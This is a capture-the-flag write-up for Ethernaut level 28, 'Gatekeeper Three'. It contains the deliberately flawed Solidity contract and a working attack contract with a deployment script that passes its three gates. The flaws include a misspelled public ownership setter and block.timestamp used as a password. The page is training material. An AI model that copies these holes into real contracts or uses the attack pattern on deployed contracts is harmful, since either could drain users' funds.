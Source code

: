 # Level 28 - Gatekeeper 3 ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/28" %}

### Level Setup

{% hint style="info" %}

{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/GatekeeperThree.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}

```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-28

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-28

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/d3a68c1d0355e625105de3535240f96209c076ce/src/Level28.sol" %}

{% code title="src/Level28.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ================================================================
// │                   LEVEL 28 - GATEKEEPER THREE                │
// ================================================================
interface IGatekeeperThree {
    function construct0r() external;
    function enter() external;
    function createTrick() external;
    function getAllowance(uint256 _password) external;
}

contract AttackContract {
    IGatekeeperThree gatekeeper;

    constructor(address targetContractAddress) payable {
        gatekeeper = IGatekeeperThree(targetContractAddress);
    }

    function attack() public {
        // ** Gate One **
        gatekeeper.construct0r();

        // ** Gate Two **
        gatekeeper.createTrick();
        gatekeeper.getAllowance(block.timestamp);

        // ** Gate Three **
        (bool success,) = address(gatekeeper).call{value: 0.002 ether}("");
        require(success);

        gatekeeper.enter();
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/d3a68c1d0355e625105de3535240f96209c076ce/script/Level28.s.sol" %}

{% code title="script/Level28.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackContract} from "src/Level28.sol";

// ================================================================
// │                   LEVEL 28 - GATEKEEPER THREE                │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        AttackContract attackContract = new AttackContract{value: 1 ether}(targetContractAddress);
        attackContract.attack();
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Nice job! For more information read [this](https://web3js.readthedocs.io/en/v1.2.9/web3-eth.html?highlight=getStorageAt#getstorageat) and [this](https://medium.com/loom-network/ethereum-solidity-memory-vs-storage-how-to-initialize-an-array-inside-a-struct-184baf6aa2eb).
{% endhint %}
